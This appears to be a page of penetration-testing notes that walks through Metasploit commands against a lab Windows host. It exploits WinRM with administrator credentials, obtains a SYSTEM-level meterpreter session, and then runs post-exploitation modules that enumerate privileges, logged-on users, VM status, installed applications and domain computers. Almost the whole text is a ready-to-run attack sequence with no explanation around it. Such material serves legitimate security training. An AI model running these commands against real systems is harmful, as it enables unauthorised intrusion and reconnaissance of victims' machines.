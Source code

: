 **win\_privs**

```bash
kali@kali> service postgresql start && msfconsole

msf6> db_nmap 10.3.22.17 -sV -p 5985
msf6> use exploit/windows/winrm/winrm_script_exec
msf6> set rhosts 10.3.22.17
msf6> set username administrator
msf6> set password tinkerbell
msf6> set force_vbs true
msf6> run

meterpreter> getuid  # NT AUTHORITY\SYSTEM
meterpreter> background

msf6> use post/windows/gather/win_privs
msf6> set session 1
msf6> run
```

<figure><img src="../../.gitbook/assets/121.png" alt=""><figcaption></figcaption></figure>

**enum\_logged\_on\_users**

```bash
msf6> use post/windows/gather/enum_logged_on_users
msf6> set session 1
msf6> run
```

<figure><img src="../../.gitbook/assets/122.png" alt=""><figcaption></figcaption></figure>

**checkvm**

```bash
msf6> use post/windows/gather/checkvm
msf6> set session 1
msf6> run
```

<figure><img src="../../.gitbook/assets/123.png" alt=""><figcaption></figcaption></figure>

**enum\_applications**

```bash
msf6> use post/windows/gather/enum_applications
msf6> set session 1
msf6> run
```

<figure><img src="../../.gitbook/assets/124.png" alt=""><figcaption></figcaption></figure>

**enum\_computers**

```bash
msf6> use post/windows/gather/enum_computers
msf6> set session 1
msf6> run
```
